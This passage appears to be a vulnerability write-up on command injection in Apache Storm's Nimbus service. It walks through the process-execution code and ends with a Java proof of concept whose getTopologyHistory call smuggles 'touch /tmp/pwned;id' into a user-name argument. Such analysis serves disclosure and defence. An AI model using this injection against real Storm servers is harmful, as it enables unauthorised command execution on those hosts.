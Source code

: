 ```
    InputStream stderr = process.getErrorStream();
    synchronized (stderr) {
        errReader.close();
    }
} catch (IOException ioe) {
    LOG.warn("Error while closing the error stream", ioe);
}
process.destroy();
lastTime = System.currentTimeMillis();
}
```

Finally, In a summary defines a thread that reads the error stream and appends its contents to the `errMsg` `StringBuffer` and start the thread & then proceeds to parse the output from the input stream using the `parseExecResult` method. After that, the input stream clear its buffer. Then, wait for the process to finish and retrieves the exit code. Next, It ensure that the error thread has exited by joining it and If the exit code is not zero, it throws an `ExitCodeException` with the error message. In the `finally` block, it cancel the timeout timer if it exists, closes the input stream, interrupts the error thread if the command execution is not completed, closes the error stream, destroys the process, and updates the `lastTime` variable with the current time. So, Now how actually the code can get injected or where is the point that the user give the malicious input ?. Let's discover it by going through the `PoC`:

```
import org.apache.storm.utils.NimbusClient;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;

public class ThriftClient {
    public static void main(String[] args) throws Exception {
        HashMap config = new HashMap();
        List<String> seeds = new ArrayList<String>();
        seeds.add("localhost");
        config.put("storm.thrift.transport", "org.apache.storm.security.auth.SimpleTransportPlugin");
        config.put("storm.thrift.socket.timeout.ms", 60000);
        config.put("nimbus.seeds", seeds);
        config.put("storm.nimbus.retry.times", 5);
        config.put("storm.nimbus.retry.interval.millis", 2000);
        config.put("storm.nimbus.retry.intervalceiling.millis", 60000);
        config.put("nimbus.thrift.port", 6627);
        config.put("nimbus.thrift.max_buffer_size", 1048576);
        config.put("nimbus.thrift.threads", 64);
        NimbusClient nimbusClient = new NimbusClient(config, "localhost", 6627);

        // send attack
        nimbusClient.getClient().getTopologyHistory("foo;touch /tmp/pwned;id ");
    }
}
```
